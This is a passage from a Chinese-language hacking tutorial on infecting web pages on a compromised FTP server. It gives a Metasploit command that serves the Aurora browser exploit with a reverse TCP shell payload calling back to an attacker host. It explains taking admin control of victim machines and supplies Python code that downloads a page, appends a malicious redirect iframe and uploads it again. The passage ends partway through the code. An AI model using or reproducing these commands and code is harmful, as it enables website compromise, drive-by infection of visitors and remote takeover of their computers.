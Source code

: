 
---


---


---


## 二、在网页中加入恶意注入代码

> 
<h3>2.1、分析：</h3>
已经找到了网页文件， 必须用恶意重定向代码感染它们。为了快速创建一个位于http://xx.xx.xx.xx:8080/exploit 的恶意服务器和页面，将使用Metasploit 框架，选用的是msl0_002_aurora, ip:8080/exploit 上的网页会利用被重定向到它这里的浏览器中的漏洞， 使之向我们提供一个反向连接， 令我们能通过这个反向连接来控制这台“ 肉机”
msfcli exploit/windows/browser/ms10_002_aurora<br/> LHOST=xx.xx.xx.xx SRVHOST=xx.xx.xx.xx URIPATH=/exploit<br/> PAYLOAD=windows/shell/reverse_tcp LHOST=xx.xx.xx.xx LPORT=443 E
<hr/>
如果有哪个有漏洞的浏览器连接到http://xx.xx.xx.xx:8080/ exploit这个服务器， 它就会执行漏洞利用代码。一旦成功，将生成一个反向的TCPshell, 并让我们得到这台被黑计算机上的Windows命令行提示窗口。有了这个命令shell后， 就能在“ 肉机” 上以管理员权限执行命令
<hr/>
接下来，要在被黑服务器的正常网页中添加一段重定向至我们的恶意服务器的代码。我们可以从被黑的服务器上把默认网页下载下来， 在其中插入一个iframe, 然后把这个插入了恶意代码的网页传回到被黑的服务器上
<hr/>
injectPage()这个函数，需要给injectPage()函数输入一个FTP连接、网页名， 以及表示用于重定向的这个iframe字符串，然后下载该网页的临时副本。接着， 它把重定向到我们恶意服务器上的这个iframe添加到这个临时文件中。最后， 函数将被感染的网页传回被黑的服务器上。


---


> 
<h3>2.2、函数：</h3>
ftp.retrlines()：使用RETR命令获取文件多行信息
<hr/>
storlines (cmd, f)：给定 FTP 命令。（如“ STOR filename”），用来上传文本文件
<hr/>
ftplib.FTP类：实现FTP协议的客户端，可以使用它来编写执行各种FTP作业的Python程序


---


> 
<h3>2.3、实现：</h3>
python injectPage.py
<pre><code>import ftplib


def injectPage(ftp, page, redirect):
    f = open(page + '.tmp', 'w')
    ftp.retrlines('RETR ' + page, f.write)
    print('[+] Downloaded Page: ' + page)
    f.write(redirect)
    f.close()
    print('[+] Injected Malicious IFrame on: ' + page)
    ftp.storlines('STOR ' + page, open(page + '.tmp'))
    print('[+] Uploaded Injected Page: ' + page)
